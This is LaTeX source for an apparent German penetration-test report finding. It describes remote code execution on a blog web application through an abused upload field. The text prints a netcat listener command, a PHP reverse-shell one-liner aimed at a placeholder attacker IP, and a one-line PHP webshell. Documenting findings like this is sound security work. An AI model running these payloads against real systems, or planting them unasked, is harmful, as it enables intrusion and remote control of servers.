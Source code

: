\section{\makecvssbadge Remote Code Execution (RCE)}

\subsection*{Proof of Concept}
Dieser Benutzer \textit{Odo} hat Entwicklerrechte für die Webanwendung und kann Konfigurationen an der Webanwendung vornehmen. Unter der Adresse \url{http://10.0.68.101:80/} können die Felder zum Erstellen eines Blogeintrags geändert werden. Es kann ein Datei-Upload-Feld hinzugefügt werden, das das Hochladen von PHP-Dateien ermöglicht. PHP-Dateien müssen explizit als gültiges Datenformat in die Validierungsregeln aufgenommen werden. Dadurch kann ein Blogeintrag erstellt werden, an den eine PHP-Webshell angehängt wird (siehe \autoref{listing:php-webshell}). Der Angreifer kann mit dem Befehl in \autoref{listing:netcat-listener} einen Netcat-Listener starten und anschließend in der Web-Shell mit dem Befehl in \autoref{listing:pedikuere:revers_shell} eine Reverse Shell starten. Ein Nachweis ist in \autoref{fig:01_pedikuere_salon_proof} dargestellt.

\begin{listing}[!ht]
\begin{verbatim}
nc -lvp 9001
\end{verbatim}
\caption{Netcat-Listener für eine Reverse Shell auf Port 9001}
\label{listing:netcat-listener}
\end{listing}

\begin{listing}[!ht]
\begin{verbatim}
php -r '\$sock=fsockopen("<Angreifer-IP>",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{verbatim}
\caption{Reverse Shell initiieren über die hochgeladene Webshell}
\label{listing:pedikuere:revers_shell}
\end{listing}


\begin{listing}[!ht]
\begin{verbatim}
<php system($_REQUEST['cmd']); ?>
\end{verbatim}
\caption{Einfache PHP Webshell}
\label{listing:php-webshell}
\end{listing}

